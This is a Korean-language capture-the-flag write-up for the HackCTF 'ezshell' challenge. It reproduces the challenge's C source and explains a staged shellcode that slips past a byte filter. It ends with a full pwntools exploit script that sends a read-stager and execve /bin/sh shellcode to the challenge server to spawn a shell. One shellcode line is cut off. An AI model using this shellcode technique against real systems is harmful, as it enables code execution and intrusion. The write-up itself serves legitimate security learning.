 ```yaml
---
layout: post
title:  "HacCTF ezshell write-up"
date:   2020-03-22 19:45:55
image:  hackctf_ezshell.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] ezshell

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled.png)

Full RELRO와 카나리가 걸려있다. 또한 PIE도 걸려있는데 현재 RWX가 있는걸로 봐서 쉘코드 관련한 문제로 보인다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%201.png)

바이너리를 실행시키면 처음에 입력을 받고 어떠한 값이 출력된다. 



**3) 코드흐름 파악**

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    	
    void Init(void)
    {
    	setvbuf(stdin, 0, 2, 0);
    	setvbuf(stdout, 0, 2, 0);
    	setvbuf(stderr, 0, 2, 0);
    }
    
    int main(void)
    {
    	Init();
    
    	char result[100] = "\x0F\x05\x48\x31\xED\x48\x31\xE4\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x48\x31\xF6\x48\x31\xFF\x4D\x31\xC0\x4D\x31\xC9\x4D\x31\xD2\x4D\x31\xDB\x4D\x31\xE4\x4D\x31\xED\x4D\x31\xF6\x4D\x31\xFF";
    	char shellcode[30];
    	char filter[4] = {'\xb0', '\x3b', '\x0f', '\x05'};
    
    	read(0, shellcode, 30);
    	
    
    	for (int i = 0; i <= 3; i ++)
    	{
    		if (strchr(shellcode, filter[i]))
    		{
    			puts("filtering :)");
    			exit(1);
    		}		
    	}
    
    	for (int i = 0; i < 30; i++)
    	{
    		if (!shellcode[i])
    		{
    			puts("null :)");
    			exit(1);
    		}
    	}
    
    	strcat(result, shellcode);
    	(*(void (*)()) result + 2)();
    }

이번 문제는 아예 코드를 줘버렸다. 코드의 흐름은 다음과 같다.



1. result배열에 어떠한 값이 들어가 있다. 해당 값을 디스어셈블시키면 다음과 같다.

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%202.png)

    처음에 syscall이 보이고 그 뒤에는 모든 레지스터들을 다 xor 연산하여 0으로 초기화 시킨다

2. shellcode 배열에 입력을 받는다
3. -
4. 입력한 shellcode안에 filter 배열에 들어있는 값이 존재하는지 확인하고 존재하면 filtering: 문자열이 출력되면서 종료된다.

    여기서 필터의 개수는 총 4개로서 \x0f\x05는 syscall을 뜻하고, \3b는 59로서 execve syscall을 할때 필요한 rax값이다. /xb0은 잘모르겠다

5. 그다음 또 반복문을 돌면서 입력한 shellcode 배열에 널값이 존재하는지 확인하고 있으면 종료된다.
6. 만약 shellcode 배열이 필터에 걸리지 않고 널바이트가 없다면, result+2 즉 syscall 그다음을 호출한다.





### 2. 접근방법

---

쉘코드를 작성해야한다. 길이제한은 30바이트로 저번 Unexploitable#4 문제에서 간단한 쉘코드를 만들었기 때문에 이를 참조하여 필터에 걸리지 않는 쉘코드를 짤것이다.

내가 작성한 쉘코드는 다음과 같다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%203.png)

pwntools 의 asm기능을 이용하여 간단하게 구현하였다.



**시나리오**

1. syscall로 read함수를 호출하여 일반 인터넷에 있는 23바이트? 짜리 쉘코드를 삽입한다
2. jmp 로 쉘코드를 실행한다!

- **mov rsp, QWORD PTR fs:[rbx];**

    result 배열에 들어있는 쉘코드 때문에 rsp가 0이다. 따라서 위 코드를 진행해야 push나 pop 같은 명령어를 사용가능하다.

- **lea rsi, [rip-1];**

    현재 rip의 주소를 rsi에 복사를 한다. 단, 그냥 rip 이렇게 하면 널값이 들어가므로 -1 연산을 통해 널값을 없앤다. 즉 rsi에 실제 쉘코드가 들어갈 주소가 들어간다.

- **mov dx, 0xffff;**

    read함수의 입력 사이즈를 위해 삽입하였다.

- **jmp 0xffffffffffffffbb+5**

    현재 syscall 위치로 가야한다. 따라서 상대주소를 줘야하므로, 

    => "목적지 주소(syscall 위치) - 현 rip주소 - 5" 를 계산하여서 입력을 주면된다.

    근데 그냥 이렇게 jmp ~ 입력하면 에러가 난다. 따라서 위 사진처럼 입력해줘야한다.

    (vma는 base주소라고 생각하면 됨.)

    [jmp, call instruction 주소 계산](http://umbum.tistory.com/102)

사실 이렇게 syscall 위치의 상대주소를 구해도 실제 디버깅 해보면 틀리게 나온다. 따라서 직접 디버깅하면서 확인한 경과 위 공식?에서 +5를 해야지 실제 syscall 주소가 들어간다.





### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.arch="amd64"
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3036)
    #p=process("./ezshell")
    #gdb.attach(p,'code\nb *0xb92+$code\n')
    
    shell="mov rsp,QWORD PTR fs:[rbx];"
    shell+="lea rsi,[rip-1];"
    shell+="mov dx,0xffff;"
    shell=asm(shell)
    shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFBB+5), vma=0x1, arch='amd64',os='linux')
    shell=shell.ljust(30,'\xcc')
    log.info(len(shell))
    log.info(shell)
    p.send(shell)
    shell2 = "\x90"*0x100
    shell2 +="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x$
    pause()
    p.sendline(shell2)
    p.interactive()





### 4. 몰랐던 개념

---

- 쉘코드 관련 문제는 처음 풀어봤다. pzshell을 통해 복습겸 다시 익혀야겠다.
- 추가적으로 위 익스코드에서 처음에 sendline으로 보내면 다음 read가 개행떄문에 씹힌다. 따라서 send로 보내야한다